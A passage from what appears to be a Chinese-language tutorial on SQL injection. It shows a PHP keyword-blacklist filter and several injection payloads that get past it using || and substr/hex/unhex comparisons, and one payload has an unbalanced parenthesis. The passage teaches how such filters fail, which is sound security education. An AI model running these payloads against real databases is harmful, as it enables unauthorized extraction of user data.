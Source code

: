 `select 1` 也等于 **1** ，<br>

最后就变成 `1|| 1=1` 条件为真。

--------
<br>


## **关键词过滤：`and` , `or` , `union` , `where` , `limit` , `group by` , `select` ,`'`(分号)**

PHP过滤代码：
```php 
preg_match ('/(and|or|union|where|limit|group by|select|\')/i',$id)
```

过滤注入：
```sql
1|| (select substr(group_concat(usr_id),1,1)user from users =1
```

绕过注入：
```sql
1|| user_id is not null
```
```sql
1||substr(user,1,1)=0x61
```
```sql
1||substr(user,1,1)=unhex(61)
```

首先还是之前那张表，来运行下sql语句看看，<br>

![images](/images/2019-04-05/gj03.png) <br>
